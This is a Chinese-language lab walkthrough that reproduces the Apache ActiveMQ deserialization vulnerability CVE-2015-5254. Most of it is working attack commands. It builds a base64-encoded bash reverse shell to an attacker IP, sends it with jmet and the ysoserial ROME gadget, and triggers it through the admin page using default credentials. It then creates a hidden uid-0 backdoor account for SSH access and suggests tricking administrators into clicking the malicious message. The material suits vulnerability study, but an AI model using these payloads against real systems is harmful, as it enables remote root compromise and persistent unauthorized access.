 # ActiveMQ反序列化漏洞 (CVE-2015-5254)

## 漏洞详情

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

远程攻击者可利用反序列化漏洞执行任意代码



## 影响版本

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞



## 环境搭建

```
cd activemq/CVE-2015-5254
docker-compose up -d
```

环境运行后，将监听61616和8161两个端口。其中61616是工作端口，消息在这个端口进行传递；8161是Web管理页面端口。访问`http://your-ip:8161`即可看到web管理页面，不过这个漏洞理论上是不需要web的。



## 漏洞复现

### 构造反弹shell

我们先构造一个bash来反弹shell，我们需要进行一次编码，防止命令传递时出错。

工具：http://www.jackson-t.ca/runtime-exec-payloads.html

```
bash -i >& /dev/tcp/本地监听IP/本地监听端口 0>&1
```

最后的命令构成

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2LjEyOS8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}
```

接着作为一个消息，将序列化对象发送给目标61616端口

### 利用jmet发送消息

这里我们使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用。

> 我们需要在jar文件同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "需要执行的命令" -Yp ROME ip地址 61616
```

最后执行

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2LjEyOS8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.16.128 61616
```

执行完后，它会给你的ID，待会要用到

![image-20210415181317161](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210415181317161.png)

接着我们打开本地监听，等待反弹的shell

```
nc lvvp 刚刚bash设置的端口
```

### 触发反弹shell

最后就是关键了，这个反弹shell需要单击消息进行命令触发执行，我们要登录管理页面来查看此队列中的所有消息

```
http://IP:8161/admin/browse.jsp?JMSDestination=event	# 账号密码都是admin
```

我们点击对应ID的消息，这时候我们就反弹到shell了，拿到了root权限

![image-20210415181424834](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210415181424834.png)

![image-20210415181535751](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210415181535751.png)

值得注意的是，通过Web管理页面访问消息并触发漏洞需要管理员特权。在没有密码的情况下，我们可以诱使管理员访问我们的链接以进行触发，或者伪装成其他服务的合法消息在触发时需要等待客户端访问。

### 添加用户

执行jmet的命令添加test用户并将其添加到root组，返回`192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "useradd -g root -s /bin/bash -u 10010 test" -Yp ROME 192.168.16.128 61616
```

让我们再将passwd中的test的uid修改为0，使它拥有root权限,返回`192.168.10.5:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "sed -i "s/test:x:10010/test:x:0/g" /etc/passwd" -Yp ROME 192.168.16.128 61616
```

让我们再为test用户设置一个密码,返回`192.168.10.5:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "echo "test:sd123456" | chpasswd" -Yp ROME 192.168.16.128 61616
```

到此为止，一个权限为root，密码为123456的用户即创建完毕。我们可以使用ssh直接远程登陆进入操作系统，并且还是最高权限。



## 漏洞分析

该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。



## 防御与修复

升级到最高版本